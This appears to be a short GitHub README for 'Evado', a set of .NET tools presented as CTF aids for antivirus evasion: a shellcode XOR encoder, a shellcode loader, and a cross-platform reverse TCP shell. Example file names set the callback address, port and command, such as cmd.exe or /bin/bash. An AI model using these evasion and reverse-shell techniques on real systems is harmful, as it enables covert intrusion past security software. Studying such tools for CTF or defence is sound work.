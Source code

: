 # Evado
CTF Tools for Simple AV Evasion

### SimpleXor
Simple ShellCode Xor (NET Core 6.0)

### SimpleLoader
Simple Xor ShellCode Loader (NET Core 6.0)

### UniversalisRev
Simple TcpReverser (NET Core 6.0) ***compatible with cross-compilation***. <br> 
Inside there are two Publishing profiles (Windows x64 and Linux x64). <br> Should also be compatible with MacOS and ARM architecture (Not MacOS ARM).
<br>
Compile it for the operating system you need.
<br><br>
Usage: <br>
Program will try to connect back based on its name.
You can specify the binary or the command to execute and send over Tcp by changing the last part of the name.<br>
<br> Examples: <br>
`UniversalisRev_127.0.0.1_443_cmd.exe` <br>
`UniversalisRev_127.0.0.1_443_whoami.exe` <br>
`UniversalisRev_127.0.0.1_443_-bin-bash`
